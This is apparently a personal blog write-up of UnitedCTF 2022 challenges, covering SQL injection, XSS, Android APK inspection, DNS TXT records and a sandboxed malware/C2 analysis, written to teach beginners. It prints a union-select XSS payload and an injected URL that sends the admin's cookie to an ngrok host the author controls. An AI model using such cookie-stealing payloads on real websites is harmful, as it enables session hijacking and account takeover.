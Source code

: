 ```yaml
---
layout: post
title: "Northsec Hackademy"
date: 2022-10-16
image: /will-hack-for-coffee/assets/images/unitedctf2022/pastagen.png
---
```


Last year I was supposed to do a post on UnitedCTF web challenge but I ran out of gas. Too bad there was tons of cool stuff: a series of file upload challenges, a website featuring a cute dog, a pentest on a fake government website and hacking techniques based on the Vaxicode mobile app. In this post I'll show you how I combined SQL injection and XSS, an introductory mobile app pentest and one thing I learned about DNS. I will also talks about the track made by Desjardins, which was my favorite this year. As always the challenge are available on [Github](https://github.com/UnitedCTF/UnitedCTF-2022) so you can try them yourselves

## Wisdom 1: Know your SQL injection

![Wisdom website](/will-hack-for-coffee/assets/images/unitedctf2022/wisdom-website.png)

So this is a simple website where you can search for quotes. Using quotes didn't break the app but this payload did: 

![Error](/will-hack-for-coffee/assets/images/unitedctf2022/error.png)

I could then found that two columns were expected:

![First injection](/will-hack-for-coffee/assets/images/unitedctf2022/first-injection.png)

Then I had to guess what type of database it was using by trials and errors, [thank you for payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md):
![Finding database type](/will-hack-for-coffee/assets/images/unitedctf2022/finding-database-type.png)

Then I could extract the (simple) schema. Using an expression that evaluated to false at the left to simplify display:
![Finding database type](/will-hack-for-coffee/assets/images/unitedctf2022/extracting-schema.png)

Finally I got my flag:

![Finding database type](/will-hack-for-coffee/assets/images/unitedctf2022/wisdom-first-flag.png)

## Wisdom 2: XSS or SQL injection? Why not both?

There is a link called Found a bug, let's take a look:

![Bug submit page](/will-hack-for-coffee/assets/images/unitedctf2022/bug-submit.png)

It looks like if you put an url there, the admin will visit it. If there was XSS on his site we could steal his cookie, impersonate him and try to escalate our privilege. Sadly there is only SQL injection... hmmm?

![Reflected XSS](/will-hack-for-coffee/assets/images/unitedctf2022/reflected-xss.png)

So I managed to inject an XSS in the page by using this payload: 

``
' union select '<script>alert("Reflected XSS")</script>',null -- 
``

So now we need to redirect his cookie to a server we control. During the CTF, the website was on the internet and not hosted on my local server using Docker. For those well versed in networking (not me) it could be done using port forwarding but I used a tool call ngrok that simplified my network setting. It's a tool that is worth learning! Just register for a free account and [get started](https://ngrok.com/), it's only two steps to install and configure. After this launch ngrok on your machine forwarding to port 80 following the Getting started section. Then browse to the Endpoint page.

![ngrok](/will-hack-for-coffee/assets/images/unitedctf2022/ngrok.png)

This is the url to access your local server, I used a simple python server listening on port 80.

**Be careful with that tough because you are opening a door into your home network for all those malicious hackers and bots roaming the internet. So close Ngrok after you are finished and don't serve sensitive files with your python server! xD**

So I send this link for the admin to inspect (code formating the url looks kinda bad but it prevent accidental XSS in my website!):

``
http://wisdom.ctf.unitedctf.ca/?q=' union select '<script>document.location="https://xxx-xxx-xxx-xxx-xxx.ngrok.io?c=".concat(document.cookie);</script>',1 -- 
``

Looking at my python server:

![Capturing cookie](/will-hack-for-coffee/assets/images/unitedctf2022/capturing-cookie.png)

The first part of the flag is a reference to HTTP-Only which is a [setting for your cookie](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#restrict_access_to_cookies) that it should only be accessible by HTTP (excluding javascript). That setting kind of confused me at first as it doesn't mean unencrypted transmission but refer to the HTTP protocol. The cookie settings for transmitting cookies only via HTTPS is called Secure. The second part of the flag refer to [Content-Security-Policy header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) that indicate which resources are allowed to load.

## Mobile app 1: Debugging

Some students from [ApplETS](https://clubapplets.ca/) made a small mobile app track. I didn't knew anything about mobile app reversing but I was eager to try it.

![Mobile app 1](/will-hack-for-coffee/assets/images/unitedctf2022/mobile1.png)

First challenge is about SQL injection, no problemo! Oh I only have an APK? I wanted to try it for a long time so I installed [Android Studio](https://developer.android.com/studio). I could then open the APK and run it in a simulated device. 

![Debugging APK](/will-hack-for-coffee/assets/images/unitedctf2022/debugging-apk.png)

I know it's SQLlite and I'm all warmed up so quickly I had the first challenge done:

![First mobile flag](/will-hack-for-coffee/assets/images/unitedctf2022/first-mobile-flag.png)

## Mobile app 2: Grab that database

![Mobile app 2](/will-hack-for-coffee/assets/images/unitedctf2022/mobile2.png)

So I had to browse the database but where is it? The database seems to be created by the APK, possibly by code. By running the app in debug you can browse the device file. You might not be allowed access on a non rooted device but I am on a virtual device that I fully control. Googling the location of the database, I found that:

![Device explorer](/will-hack-for-coffee/assets/images/unitedctf2022/device-explorer.png)

Copying this database on my machine, I could then browse it using sqllitedb in Kali and found the second flag.

![Browsing the database](/will-hack-for-coffee/assets/images/unitedctf2022/second-mobile-flag.png)

## Mobile app 3: Decompilation

![Mobile app 3](/will-hack-for-coffee/assets/images/unitedctf2022/mobile3.png)

Why use a tool when you can Android Studio? Here is the third flag:

![Third mobile flag](/will-hack-for-coffee/assets/images/unitedctf2022/third-mobile-flag.png)

Really glad I took some time to look at Android Studio. I might dabble with it further eventually. Maybe an app to locate and rate the nearest mobile toilet when stuck in traffic due to roadworks?

![Mobile toilet](/will-hack-for-coffee/assets/images/unitedctf2022/mobile-toilet.png)

## Sus domain

The next challenge I wanted to show you, I only found after the CTF by looking at the solution:

![Suspicious domain](/will-hack-for-coffee/assets/images/unitedctf2022/sus-domain.png)

I knew it was related to DNS and I knew TXT was a type of record. But I investigated the domain (I didn't realized the DNS entry for the subdomain would be different) instead of the subdomain. 

![Looking at DNS txt record](/will-hack-for-coffee/assets/images/unitedctf2022/dig-subdomain.png)

Here it was, encoded in base64: FLAG-4eef1b53ba09dfd7fdb7037b488839770.

The text record can contain arbitrary text and this string is probably fake but it's a legit way for company, like Google, to verify you own this domain. It's also used to store DMARC, SPF and DKIM information for email authentication, so I learned that.

## Desjardins: Dynamic Malware analysis

It's the second time I completed the Desjardins track and it was even better then the last ibe. The idea of the challenge is to run a malware in a controlled environment and ultimately find and impersonate a [C2](https://www.varonis.com/blog/what-is-c2) server. There is already two [good](https://ch0ufleur.dev/desjardins-analyse-dynamique-de-logiciel-malveillant/) [writeup](https://github.com/PeLouZe/UnitedCTF22-Desjardins) on it but I used slightly different tooling so I toy with the idea of writing a post about it too. I used a [free image of windows 11](https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/) and I installed a distribution from Mandiant specialized in reverse engineering and malware analysis called [Flare VM](https://www.mandiant.com/resources/blog/flare-vm-update).

Basically the malware interrogate a well known website before trying to contact his C2 server and he is using https so you need to use a proxy and configure the TLS certificate beforehand. I used [Procmon](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon), Wireshark and Burp. It could have been solved using only those but I discovered and configured the tool [mitmproxy](https://mitmproxy.org/) and I also used another tool called [fakenet](https://github.com/mandiant/flare-fakenet-ng) to impersonate the C2 server. So I now have a really nice VM to play with for those pesky Windows CTF challenge.

## Conclusion

UnitedCTF is my favorite because there is a lot of challenges designed to teach the basic of hacking to beginners by pointing to ressources and tools. There is also original content that I didn't see in any other CTF like the Shellcoding track or ReDoS last year. Thanks to the students who took the time to make this great event and thanks Desjardins for that interesting challenge!

